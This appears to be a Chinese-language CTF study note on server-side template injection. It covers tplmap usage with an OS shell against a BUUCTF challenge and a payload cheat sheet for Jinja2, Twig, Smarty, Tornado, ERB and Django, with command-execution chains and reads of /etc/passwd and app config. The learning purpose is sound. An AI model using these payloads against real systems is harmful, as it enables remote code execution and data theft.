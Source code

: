 # tplmap使用

tplmap需要python2的运行环境

- (kali中更改python版本使用命令`sudo update-alternatives --config python`,然后手动选择版本)

语法:(进入到/home/cjy/CTF-tools/tplmap/后)

`./tplmap -u http://036c3e84-70cc-4a38-a626-16b8d5d4271b.node5.buuoj.cn:81/qaq?name=1`

#可以查询模板,并且还会提示我们使用什么注入

对于buuctf fake google这题,就可以使用命令:

`./tplmap.py -u http://036c3e84-70cc-4a38-a626-16b8d5d4271b.node5.buuoj.cn:81/qaq?name=1 --engine=Jinja2 --os-shell`拿到shell命令界面,别忘了--engine指定模板



# 一.什么是服务器端模板注入？

- 简单来说，就是网站内容的动态部分，如果有一个网站的内容几乎相同，但只有某些部分发生改变，那么他们很有可能使用了模板

服务器端模板注入是指攻击者能够使用本机模板语法将恶意有效负载注入模板中，然后在服务器端执行该模板。

模板引擎旨在通过将固定模板与易失性数据结合来生成网页。当用户输入直接连接到模板而不是作为数据传递时，可能会发生服务器端模板注入攻击。这使攻击者可以注入任意模板指令以操纵模板引擎，从而经常使攻击者能够完全控制服务器。顾名思义，服务器端模板注入有效负载是在服务器端交付和评估的，这可能使它们比典型的客户端模板注入更加危险。

# 二.服务器端模板注入有什么影响？

服务器端模板注入漏洞可能使网站遭受各种攻击，具体取决于所讨论的模板引擎以及应用程序使用它的方式。在某些罕见情况下，这些漏洞不会带来真正的安全风险。但是，在大多数情况下， 服务器端模板注入的影响可能是灾难性的。

在规模最大的一端，攻击者可以潜在地实现远程代码执行，从而完全控制后端服务器，并使用它对内部基础结构进行其他攻击。

即使在无法完全执行远程代码的情况下，攻击者通常仍可以使用服务器端模板注入作为其他众多攻击的基础，从而有可能获得对服务器上敏感数据和任意文件的读取权限。



# 判断模板注入类型的办法

https://img-blog.csdnimg.cn/img_convert/61b42a16c2b405e6ab1ada36470713f1.png

有的时候相同的payload可能会有两种响应，比如{{7*'7'}}在Twig中会的到49，而在Jinja2中会得到7777777。



# 各个模板注入的payload

## Flask/jinja2

`{{7*7}}`看看能不能成功执行,如果输出49即为flask框架

- 可以尝试`{{system('ls')}}`执行命令

- 查看环境变量可以用`{{config}}`

	如果config被过滤也可以使用:()其中这两个函数包含了``current_app`

	```
	url_for和get_flashed_messages
	```

	具体用法:

	```
	{{url_for.__globals__}}
	{{get_flashed_messages.__globals__}}
	```

	再查询当前app下的`config`

	```
	{{url_for.__globals__['current_app'].config}}
	{{get_flashed_messages.__globals__['current_app'].config}}
	```

	

## Twig

`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

`cat /flag`可以换成其他系统命令

## Smarty

在``{}``里可以直接执行php命令

## 各种payload示例：

- 通过config，调用os
	`{{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}`

	无过滤的情况下也可以直接`{{config}}`看看能不能撞上flag（？）

- 通过url_for，调用os
	`{{url_for.__globals__.os.popen('ls').read()}}`

- 在已加载os模块的子类里直接调用os模块
	`{{“”.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__[‘os’].popen(“ls”).read()}}`

	`{{“”.__class__.__base__.__subclasses__()[117].__init__.__globals__[‘builtins’][‘eval’]("__import__.(‘os’).popen(‘ls’).read()")}} `

- importlib类执行命令
	importlib类执行命令相当于自己导入，可以加载第三方库，使用load_module加载os

	`{{[].__class__.__base__.__subclasses__()[69].["load_module"]("os")[“popen”](‘ls’).read()}}`

- linecache函数执行命令
	linecache函数可用于读取任意一个文件的某一行，而这个函数中也引入了os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

	`{{[].__class__.__base__.__subclasses__()[19].__init__.__globals__.linecache.os.popen("ls").read()}}`

- subprocess.Popen类执行命令
	从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

	`{{().__class__.__base__.__subclasses__()[13](“ls”,shell=True,stdout=-1).communicate()[0].strip()}}`

## 测试用例

- 简单的数学表达式，`{{ 7+7 }} => 14`

- 字符串表达式 `{{ "ajin" }} => ajin`

- - Ruby

		`<%= 7 * 7 %>``<%= File.open('/etc/passwd').read %>`

- - Java

		`${7*7}`

- - Twig

		`{{7*7}}`

- - Smarty

		`{php}echo `id`;{/php}`

- - AngularJS

		`$eval('1+1')`

- - Tornado

		引用模块 `{% import module %}`=> `{% import os %}{{ os.popen("whoami").read() }}`

- - Flask/Jinja2

		`{{ config }}``{{ config.items() }}``{{get_flashed_messages.__globals__['current_app'].config}}``{{''.__class__.__mro__[-1].__subclasses__()}}``{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}``{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}`

- - Django

		`{{ request }}``{% debug %}``{% load module %}``{% include "x.html" %}``{% extends "x.html" %}`